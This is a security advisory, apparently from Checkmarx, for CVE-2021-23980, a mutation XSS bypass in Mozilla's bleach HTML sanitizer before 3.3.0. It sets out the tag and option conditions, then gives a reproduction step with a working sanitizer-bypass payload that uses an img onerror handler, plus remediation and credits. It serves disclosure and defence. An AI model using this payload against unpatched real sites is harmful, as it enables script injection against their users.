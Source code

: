```yaml
---
title: Mutation XSS in Mozilla-bleach using comments
date: 2021-02-01
tags:
	- "python"
	- "mozilla"
	- "xss"
	- "mxss"
	- "bypass"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4303/
cves:
	- "CVE-2021-23980"
---
```

## Summary
Affected versions of Mozilla-bleach are vulnerable to Mutation XSS (mXSS) vulnerability when calling bleach.clean with:
* `svg` or `math` allowed 
* `p` or `br` allowed
* one of the RCDATA tags allowed:
```
script
noscript
style
noframes
xmp
noembed
iframe
```
* and the argument `strip_comments=False`


## Product
Bleach before 3.3.0.

## Impact
According to GitHub, more than 72,000 repositories are dependent on Bleach. Among them are major vendors, including multiple Fortune 500 tech companies.

## Steps to reproduce
```
>>> import bleach
>>> bleach.clean('<math></p><style><!--</style><img src/onerror=alert(1)>', tags=['math', 'p', 'style'], strip_comments=False)
```

### Expected result:
```<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>```

## Remediation
Update bleach dependency to 3.3.0 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://www.twitter.com/ynizry).

## Resources
1. [Advisory](https://github.com/advisories/GHSA-vv2x-vrpj-qqpq)
2. Commit [79b7a3c](https://github.com/mozilla/bleach/commit/79b7a3c5e56a09d1d323a5006afa59b56162eb13)
